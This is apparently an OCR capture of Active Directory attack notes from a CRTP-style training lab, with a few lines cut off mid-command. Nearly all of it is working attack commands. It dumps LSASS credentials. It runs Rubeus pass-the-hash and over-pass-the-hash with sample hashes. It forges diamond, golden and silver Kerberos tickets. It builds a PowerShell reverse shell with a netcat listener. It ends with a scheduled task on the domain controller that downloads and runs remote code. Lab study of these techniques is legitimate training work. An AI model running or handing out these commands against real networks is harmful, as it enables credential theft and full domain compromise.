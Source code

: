 .\rdrleakdiag.exe /p 684 /o \\mcorp-dc\C$\ /fullmemdmp /wait 1
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 684 \\dcorp-std111\Users\Public\lsass.dmp full
Rubeus
PassTheHash
# Run the compiled application with the asktgt flag to ask the KDC to generate a TGT ticket for us
.\Rubeus.exe asktgt /domain:dollarcorp.moneycorp.local /user:svcadmin /rc4:b38ff50264b74508085d82c69794a4d8 /ptt
C:\AD\Tools\Rubeus.exe asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /creat
Over Pass the hash
# Below doesnt need elevation
.\Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
# Below command needs elevation
.\Rubeus.exe asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C
Diamond Ticket attack
# use the following Rubeus command to execute the attack. Note that the command needs
# to be run from an elevated shell (Run as administrator):
C:\AD\Tools\Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /tic
CRTP 5
BetterSafetyKatz
Golden Ticket
# SID = sid of the domain
# aes256 = the aes256 hash of the krbtgt
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3
Silver Ticket Attack (DC-HOST Machine account Hash)
Info
we have the hash for machine account of the domain
controller (dcorp-dc$). Using the below command, we can create a Silver Ticket that provides us access
to the HOST service of DC
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid: S-1-5-21-719815819-
Create Invoke-PowerShellTcpEx.ps1:
What to do
Create a copy of Invoke-PowerShellTcp.ps1 and rename it to Invoke-PowerShellTcpEx.ps1.
Open Invoke-PowerShellTcpEx.ps1 in PowerShell ISE (Right click on it and click Edit).
Add "Power -Reverse -IPAddress 172.16.100.X -Port 443" (without quotes) to the
end of the file
Run the below command in the process where we injected the ticket for HOST service. Make sure that the listener is
already running:
# nc listiner
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443
schtasks /create /S dcorp-dc /SC Weekly /RU "NT Authority\SYSTEM" /TN "test" /TR "powershell.exe -c 'iex (New-Object Net.WebClient)